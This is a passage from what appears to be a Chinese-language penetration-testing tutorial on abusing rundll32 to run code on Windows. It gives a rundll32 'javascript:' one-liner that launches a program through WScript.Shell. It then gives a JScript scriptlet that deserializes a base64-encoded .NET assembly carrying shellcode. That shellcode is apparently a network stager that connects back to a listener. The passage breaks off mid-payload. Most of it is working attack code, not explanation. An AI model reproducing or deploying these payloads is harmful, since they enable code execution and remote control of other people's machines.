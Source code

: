     rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"mstsc\");window.close()");
    
        

注：如靶机支持powershell，调用powershell更贴合实战。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101016553613.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
附录：Rundll32\_shellcode

    <?xml version="1.0"?> 
    <package>
    <component id="Micropoor"> 
    
    <script language="JScript">
    <![CDATA[
    function setversion() {
    }
    function debug(s) {}
    function base64ToStream(b) {
    var enc = new ActiveXObject("System.Text.ASCIIEncoding");
    var length = enc.GetByteCount_2(b);
    var ba = enc.GetBytes_4(b);
    var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
    ba = transform.TransformFinalBlock(ba, 0, length);
    var ms = new ActiveXObject("System.IO.MemoryStream");
    ms.Write(ba, 0, (length / 4) * 3);
    ms.Position = 0;
    return ms;
    } 
    
    var serialized_obj = "AAEAAAD/AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"+
    "AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+
    "dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"+
    "ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD"+
    "AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl"+
    "RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU"+
    "eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl"+
    "cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90"+
    "aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu"+
    "MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH"+
    "dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA"+
    "ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw"+
    "B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu"+
    "dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA"+
    "CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u"+
    "SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5"+
    "cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR"+
    "AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA"+
    "AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y"+
    "bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh"+
    "NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz"+
    "ZW1ibHkGFwAAAARMb2FkCg8MAAAAABQAAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy"+
    "YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABMAQMAVC1CXAAAAAAA"+
    "AAAA4AACIQsBCwAADAAAAAYAAAAAAAAOKgAAACAAAABAAAAAAAAQACAAAAACAAAEAAAAAAAAAAQA"+
    "AAAAAAAAAIAAAAACAAAAAAAAAwBAhQAAEAAAEAAAAAAQAAAQAAAAAAAAEAAAAAAAAAAAAAAAwCkA"+
    "AEsAAAAAQAAA0AIAAAAAAAAAAAAAAAAAAAAAAAAAYAAADAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAIAAAAAAAAAAAAAAAIIAAASAAAAAAAAAAA"+
    "AAAALnRleHQAAAAUCgAAACAAAAAMAAAAAgAAAAAAAAAAAAAAAAAAIAAAYC5yc3JjAAAA0AIAAABA"+
    "AAAABAAAAA4AAAAAAAAAAAAAAAAAAEAAAEAucmVsb2MAAAwAAAAAYAAAAAIAAAASAAAAAAAAAAAA"+
    "AAAAAABAAABCAAAAAAAAAAAAAAAAAAAAAPApAAAAAAAASAAAAAIABQBEIgAAfAcAAAMAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQgIoBAAACgAA"+
    "KAIAAAYAACoAAAAAAAAA/OiCAAAAYInlMcBki1Awi1IMi1IUi3IoD7dKJjH/rDxhfAIsIMHPDQHH"+
    "4vJSV4tSEItKPItMEXjjSAHRUYtZIAHTi0kY4zpJizSLAdYx/6zBzw0BxzjgdfYDffg7fSR15FiL"+
    "WCQB02aLDEuLWBwB04sEiwHQiUQkJFtbYVlaUf/gX19aixLrjV1oMzIAAGh3czJfVGhMdyYHiej/"+
    "0LiQAQAAKcRUUGgpgGsA/9VqCmjAqAEEaAIAADWJ5lBQUFBAUEBQaOoP3+D/1ZdqEFZXaJmldGH/"+